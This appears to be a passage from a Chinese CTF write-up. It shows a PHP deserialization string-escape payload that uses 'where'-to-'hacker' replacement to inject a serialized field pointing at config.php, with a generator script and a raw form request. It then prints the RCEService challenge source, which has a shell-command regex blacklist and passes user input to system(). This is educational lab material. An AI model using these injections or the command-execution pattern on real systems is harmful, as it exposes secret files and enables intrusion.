 这部分就是对$profile进行了过滤，也是反序列自增字符串逃逸的地方，当匹配到where时，会提换成hacker，会多出一个字符。

那么，nickname则可以传34个where，因为";}s:5:"photo";s:10:"config.php";}有34个字符：

```
nickname[]=where*n";}s:5:"photo";s:10:"config.php";}
```

```php
<?php
$hack='where';
for ($i=0;$i<34;$i++){
    $hacker.=$hack;
}
echo $hacker;
?>
```

```
Content-Disposition: form-data; name="nickname[]"

wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

![image-20240221162311625](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240221162311625.png)

解码得到：

![image-20240221162437576](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240221162437576.png)



## [FBCTF2019]RCEService

这个题目其实是有源码的：

```php
<?php

putenv('PATH=/home/rceservice/jail');//改变或增加 环境变量 的内容，限制系统在执行命令时只在指定目录中查找可执行文件

if (isset($_REQUEST['cmd'])) {//检查是否存在名为 cmd 的请求参数
    $json = $_REQUEST['cmd'];//将请求参数 cmd 的值存储在 $json 变量

    if (!is_string($json)) {//如果 $json 不是字符串类型
        echo 'Hacking attempt detected<br/><br/>';
    } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
       //如果 $json 中包含任何 Shell 命令（例如，alias、cd、exec` 等）或特殊字符
        echo 'Hacking attempt detected<br/><br/>';
    } else {
        echo 'Attempting to run command:<br/>';
        $cmd = json_decode($json, true)['cmd'];
        //从 $json 中解码 JSON 字符串，并获取键名为 cmd 的值，存储在 $cmd 变量中。
        if ($cmd !== NULL) {
            //如果 $cmd 不为 NULL，则使用 system() 函数执行 $cmd 中指定的命令
            system($cmd);
        } else {
            echo 'Invalid input';
        }
        echo '<br/><br/>';
    }
}
```